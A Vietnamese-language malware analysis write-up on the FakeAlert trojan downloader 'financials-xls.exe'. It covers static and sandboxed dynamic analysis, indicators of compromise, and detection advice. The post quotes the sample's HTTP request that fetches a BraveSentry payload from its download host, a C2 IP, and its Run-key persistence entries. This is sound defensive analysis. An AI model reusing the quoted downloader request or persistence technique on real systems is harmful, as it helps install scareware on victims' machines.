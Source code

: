 ```yaml
---
title: Financials-xls.exe
date: 2025-07-05 11:30:00 +0700
categories: [Malware Analysis, Dynamic]
tags: [persistence, fakealert, trojan, downloader]
description: Phân tích hành vi của mẫu mã độc financials-xls.exe – dạng trojan FakeAlert, có persistence và khả năng tải xuống BraveSentry.
---
```



## 🎯 Mục tiêu

- Phân tích tĩnh & động mẫu `financials-xls.exe`
- Ghi nhận IOC và chuỗi hành vi: persistence + downloader (FakeAlert / scareware)
- Đưa ra khuyến nghị phát hiện & ứng phó

---

## 🧊 1. Phân tích tĩnh

**File name:** `financials-xls.exe`

**MD5:** `27599c22e0eba42f3e91e27fe1d04598`

**Đánh giá ban đầu (VirusTotal):** Trojan.FakeAlert

### 🔹 VirusTotal / cảnh báo

![VirusTotal detection](/resources/Financials-xls/Pasted%20image%2020251001113548.png)

### 🔹 EXEinfoPE — Packed, GUI, 32-bit
- EXE báo **32-bit, GUI, packed**.
- Dùng UPX để unpack thành công → chuyển sang phân tích tĩnh sâu hơn.

![EXEinfoPE](/resources/Financials-xls/Pasted%20image%2020251001101000.png)

![UPX unpacked](/resources/Financials-xls/Pasted%20image%2020251001101205.png)

### 🔹 PeStudio — Indicators / Imports / Sections
#### Indicators (cần chú ý)
![PeStudio Indicators](/resources/Financials-xls/Pasted%20image%2020251001101313.png)

- File có signature `Installer VISE Custom` (level 1 cảnh báo).
- Section `.text` được đánh dấu **writable** và **self-modifying** → khả năng runtime patching.
- Thư viện mạng (Windows Sockets) xuất hiện → khả năng sử dụng socket.

#### Import table
![PeStudio Imports](/resources/Financials-xls/Pasted%20image%2020251001101444.png)

- Import nhiều API liên quan đến **network**, **registry**, **process**, **UI/notification** → tương thích với hành vi downloader + persistence + fake alert.

#### Strings — dấu hiệu downloader / fake alert
![PeStudio Strings](/resources/Financials-xls/Pasted%20image%2020251001101927.png)

Một số chuỗi nổi bật (biên tập để dễ đọc):

- `GET /download.php?&advid=00000717&u=%u&p=%u HTTP/1.0\r\nHost: download.bravesentry.com\r\n\r\n`
- `GET http://download.bravesentry.com/download.php?&advid=00000717&u=%u&p=%u HTTP/1.0\r\nHost: download.bravesentry.com\r\nPragma: no-cache\r\nCache-Control: no-cache\r\n\r\n`
- Thông tin đường dẫn & tên ứng dụng giả: `C:\Program Files\BraveSentry\BraveSentry.exe`
- IP liên quan: `69.50.175.181`

→ Rất có khả năng đây là **downloader/dropper** cho BraveSentry (rogue software / scareware).

Một số chuỗi HTML/template cảnh báo giả cũng được tìm thấy (dùng để hiển thị fake alert).
![HTML template & other strings](/resources/Financials-xls/Pasted%20image%2020251001112935.png)

---

## ⚙️ 2. Phân tích động

> Lup-run trong môi trường cô lập (VM), bật ProcMon / Regshot / network capture (Fakenet) để quan sát.

### 🔸 1) Hiện cảnh báo giả (Fake Alert GUI)
Khi chạy, ứng dụng hiện cửa sổ cảnh báo/giả mạo (scareware) để dụ người dùng tương tác / click.
![Fake Alert Window](/resources/Financials-xls/Pasted%20image%2020251001114452.png)

### 🔸 2) Tải payload từ remote (downloader behavior)
Quan sát network: chương trình thực hiện request tới `download.bravesentry.com` để tải về payload (BraveSentry.exe hoặc tương tự).

![Network request to BraveSentry](/resources/Financials-xls/Pasted%20image%2020251001114626.png)

**Mẫu request:**
```

GET /download.php?&advid=00000717&u=<user>&p=<pass> HTTP/1.0
Host: download.bravesentry.com
Pragma: no-cache
Cache-Control: no-cache

```

→ mục tiêu tải chương trình giả mạo/installer xuống và có thể thực thi nó.

### 🔸 3) Persistence — registry Run keys (Regshot)
Regshot diff cho thấy malware ghi các Run entries:

![Regshot diff](/resources/Financials-xls/Pasted%20image%2020251001115031.png)

- `HKU\<sid>\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows update loader` → `"C:\Windows\xpupdate.exe"`
- `HKU\<sid>\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\con` → `"C:\Users\COMPUTER\Desktop\malware-sample\financials-xls2.exe"`

→ Malware cố gắng thiết lập autostart qua `Run` để duy trì persistence.

### 🔸 4) File artifacts (drop)
Các file được tạo / copy:

- `C:\Users\COMPUTER\AppData\Roaming\Install.dat`
- `C:\Windows\xupdate.exe` (cùng hash với binary gốc `financials-xls.exe`)

> Ghi vào `C:\Windows` thường yêu cầu **quyền Administrator**, cho thấy malware cố gắng leo thang hoặc yêu cầu quyền cao hơn.

### 🔸 5) ProcMon timeline — sơ đồ hành vi
ProcMon trace phác thảo luồng hành vi:

![ProcMon behavior diagram](/resources/Financials-xls/Pasted%20image%2020251001121636.png)

Tóm tắt:

- Process `financials-xls2.exe` khởi chạy → spawn 2 thread chính.
  - Thread A: tạo/ghi Run key `Windows update loader` → point tới `C:\Windows\xpupdate.exe`.
  - Thread B: tạo `Install.dat` trong AppData → có thể chứa config hoặc payload giai đoạn 2.
- Bên cạnh đó, process thực hiện HTTP request tới `download.bravesentry.com` để tải payload.

---

## 🚨 Kết luận

### ✅ Tóm tắt hành vi chính
- **Loại mã độc:** Trojan downloader / FakeAlert (scareware) — mục tiêu dụ người dùng cài phần mềm giả mạo.
- **Persistence:** Thiết lập Run key (`Windows update loader`, `con`) để tự khởi động sau login.
- **Drop & Copy:** Ghi bản sao vào `C:\Windows\xupdate.exe` (same hash), tạo `Install.dat` trong AppData.
- **Network:** Request tới `download.bravesentry.com` (`69.50.175.181`) để tải BraveSentry hoặc các payload phụ.
- **Quyền:** Hành vi ghi vào `C:\Windows` gợi ý cần quyền admin.

### 🎯 Mức độ rủi ro
- Trung bình → cao: có persistence và tải thêm mã độc (kịch bản multi-stage).
- Nếu payload thứ cấp có backdoor/RAT thì rủi ro sẽ tăng rất cao.

---

## 📌 IOC (Indicators of Compromise)

| Loại               | Giá trị                                                                                                                                                   |
| ------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| File name          | `financials-xls.exe`                                                                                                                                      |
| MD5                | `27599c22e0eba42f3e91e27fe1d04598`                                                                                                                        |
| C2 / Download host | `download.bravesentry.com`                                                                                                                                |
| C2 IP              | `69.50.175.181`                                                                                                                                           |
| File drops         | `C:\Windows\xpupdate.exe` (same hash as original) <br> `C:\Users\<user>\AppData\Roaming\Install.dat`                                                      |
| Registry keys      | `HKCU\...\Run\Windows update loader` = `C:\Windows\xpupdate.exe` <br> `HKCU\...\Run\con` = `C:\Users\COMPUTER\Desktop\malware-sample\financials-xls2.exe` |

---

## 🛡️ Khuyến nghị ứng phó & phát hiện

- **Chặn** domain `download.bravesentry.com` và IP `69.50.175.181` trên firewall/proxy.
- **Quét** hệ thống tìm file `xpupdate.exe` trong `C:\Windows` và file `Install.dat` trong AppData → cách ly & hash-check.
- **Kiểm tra registry**: tìm các Run entries có tên lạ như `Windows update loader`, `con` và xóa/cách ly.
- **Thu thập** memory dump & network capture nếu phát hiện tiến trình đang chạy để phân tích payload thứ cấp.
- **Cảnh báo người dùng**: không chạy file đính kèm từ nguồn không rõ; cảnh báo về các cửa sổ “scan/alert” yêu cầu cài phần mềm.

---
